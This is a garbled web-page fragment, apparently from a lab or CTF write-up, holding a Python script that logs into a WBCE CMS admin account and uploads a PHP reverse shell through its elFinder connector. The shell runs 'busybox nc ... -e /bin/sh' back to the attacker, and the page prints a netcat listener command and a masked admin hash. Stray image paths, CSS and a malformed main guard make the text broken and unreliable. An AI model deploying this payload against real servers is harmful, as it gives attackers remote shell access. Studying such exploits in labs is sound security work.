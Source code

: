 ```In case of emergency, here's the MD5 hash of the admin account: b0439fae31f8xxxxxxxxxxxxxxxxxx```

    reverse_shell_payload = """<?php

$target_ip = '10.10.xx.xx';
$target_port = 443;

$conn_cmd = "busybox nc $target_ip $target_port -e /bin/sh";
$handle = popen($conn_cmd, 'r');
if($handle) {
    while(!feof($handle)) { 
        fread($handle, 4096); 
    }
    pclose($handle);
}
>""" <----- Add a "?" before the `>`

    files = {'upload[]': ('shell.inc', reverse_shell_payload, 'application/octet-stream')}

    data = {
        'reqid': '18f3a5c13d42c5',
        'cmd': 'upload',
        'target': 'l1_Lw',
        'mtime[]': '1714669495'
    }

    response = session.post(url + "/modules/elfinder/ef/php/connector.wbce.php", 

                            files=files, data=data)

    if response.status_code == 200:
        print("Payload deployed successfully.")
        print("Listener: nc -lvnp 443")
    else:
        print("Deployment failed.")
        print(response.text)

if name == "__main__":
    url = "http://10.10.xx.xx"

    username = "admin"
    password = "sxxxxxxxxx"

    session = login(url, username, password)
    if session:
        upload_file(session, url)</code></pre>
    </div>
</div>

<style>
.terminal-container {
    background-color: #121212;
    border-radius: 10px;
    box-shadow: 0 4px 6px rgba(0,0,0,0.2);
    margin: 20px 0;
    overflow: hidden;
    position: relative;
}
.terminal-header {
    background-color: #1c1c1c;
    padding: 10px;
    display: flex;
    align-items: center;
    justify-content: center;
```